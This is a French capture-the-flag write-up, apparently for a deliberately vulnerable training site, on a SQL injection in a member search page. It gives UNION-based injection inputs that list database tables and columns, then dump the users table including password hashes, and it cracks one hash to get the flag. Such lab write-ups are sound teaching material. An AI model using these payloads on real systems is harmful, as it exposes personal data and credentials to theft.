 ### Member SQL injection

## Identification

Sur /index.php?page=member, on peut rechercher les membres par id. En testant on se rend compte que l'input n'est pas protégé et qu'on peut injecter du sql dans le where.
La requête SQL ressemble à ça: `SELECT first_name, surname FROM users where id_user = $id`

## Exploit

# Récupération des tables

On peut commencer par récupérer toute les tables présentes dans la database:
Input : `1 UNION SELECT 1, table_name FROM information_schema.tables`
Le `1,` ici permet simplement de récupérer autant de columns que dans le SELECT précédant (le SELECT du code d'index.php), c'est à dire 2 colonnes.
Output: ```
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : CHARACTER_SETS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATIONS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATION_CHARACTER_SET_APPLICABILITY

ETC...
```
Nous retrouvons le nom des tables dans la colonne `surname`
On remarque que la table `users` est présente, et nous allons nous conentrer dessus

# Récupération des colonnes de la table `users`

Il faut maintenant récupérer les colonnes de la table `users`:
Input: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
(Ici, pas besoin du `1,` car nous récupérons déjà 2 colonnes)
Output (avec un ctrl+f sur "users"): ```
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```
Pareil ici, on récupère toutes les colonnes de la table `users` dans `surname`.

# Récupération de toutes les infos utilisateurs

Il nous suffit maintenant de récupérer toute les données contenues dans la table `users`.
Comme nous récupérerons ici beaucoup de colonnes et que nous ne pouvons normalement qu'en récuperer que 2 avec le `UNION`, on doit utiliser un `concat()` pour concaténer la sortie de plusieurs colonnes en une seule. Pour la clareté, on ajouter un `\n`  entre chaque colonne:
Input: `1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users`
Output: ```
ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 3
Joseph
Staline
Moscou
Russia
Earth
????? ????????????? ?????????
e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 5
Flag
GetThe
42
42
42
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28

ETC...
```
On remarque qu'un `user` nommé `Flag` existe, un hash est présent dans la colonne `countersign` et des instructions sont présentes dans la colonne `Commentaire`

# Récupérer le flag

Avec une rapide recherche internet, on découvre que `5ff9d0165b4f92b14994e5c685cdce28`, et une fois déchiffré, nous donne `FortyTwo`.
Il nous suffit de la lower de le sha256 : `sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

